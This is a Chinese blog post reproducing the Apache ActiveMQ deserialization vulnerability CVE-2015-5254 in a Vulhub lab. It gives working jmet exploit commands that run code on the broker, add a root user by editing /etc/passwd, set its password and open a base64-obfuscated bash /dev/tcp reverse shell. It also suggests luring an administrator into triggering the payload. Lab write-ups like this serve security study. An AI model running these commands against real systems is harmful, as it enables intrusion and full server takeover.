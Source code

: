 ```yaml
---
layout: post
title: "CVE-2015-5254漏洞复现"
date: "2023-04-25T01:09:07.128Z"
---
```

CVE-2015-5254漏洞复现
=================

**1.漏洞介绍。**

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务，集群，Spring Framework 等。Apache ActiveMQ 5.13.0之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java 消息服务（JMS）ObjectMessage 对象利用该漏洞执行任意代码。

**2.环境介绍。**

复现环境采用kali搭建Vulhub。

靶机：172.18.0.1:8161

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。访问`http://your-ip:8161`即可看到web管理页面，不过这个漏洞理论上是不需要web的。

**3.漏洞利用。**

**3.1漏洞利用过程简述。**

1.  构造（可以使用ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标61616端口
3.  访问web管理页面，读取消息，触发漏洞

**3.2具体过程。**

（1）访问web界面并进行登录。

账号：admin
密码：admin

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424200048573-1103035766.png)

 （2）使用[j](https://github.com/matthiaskaiser/jmet)met进行漏洞利用。

首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
//下载jar文件
mkdir external
//创建external文件夹

执行命令：

java -jar jmet-0.1.0\-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 172.18.0.1 61616  
//创建/tmp/success，同理可进行其他命令的操作

我们返回管理界面，发现添加了一个名为事件的队列。

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424212703265-971234840.png)

 点击进入

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424213134546-1058521648.png)

 此时已经触发命令执行，我们进入dockor查看

docker ps

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424213511234-565793007.png)

docker exec -it b189872443f5  /bin/bash

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424214201083-1904690159.png)

 可以发现tmp目录已创建，进入发现sucess，漏洞利用成功

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424214037876-1296741799.png)

创建一个用户

 java -jar jmet-0.1.0\-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 Tom" -Yp ROME  172.18.0.1  61616

触发条件和之前相同，在管理界面去点击队列

 java -jar jmet-0.1.0\-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/Tom:x:0/g" /etc/passwd" -Yp ROME   172.18.0.1  61616
//修改权限
 java \-jar jmet-0.1.0\-all.jar -Q event -I ActiveMQ -s -Y "echo "Tom:sd123456" | chpasswd" -Yp ROME   172.18.0.1   61616  
//添加密码

至此，一个权限为root，密码为123456的用户被我们创建成功，之后可以直接进行ssh远程连接

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424215648275-1679832986.png)

或者将命令换为反弹shell再利用：

bash -i >& /dev/tcp/172.18.0.1/777 0\>&1

使用base64编码payload绕过Java机制

YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTguMC4xLzc3NyAwPiYx

附上base64编码脚本

import base64

# Sample string to encode
string = "bash -i >& /dev/tcp/172.18.0.1/777 0>&1"

# Encoding the string
encoded\_string = base64.b64encode(string.encode('utf-8'))

# Printing the encoded string
print(encoded\_string.decode('utf-8'))

构建pyload

java -jar jmet-0.1.0\-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTguMC4xLzc3NyAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 172.18.0.1 61616

使用nc监听端口

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230424222312930-1637432037.png)

 反弹shell成功

 值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。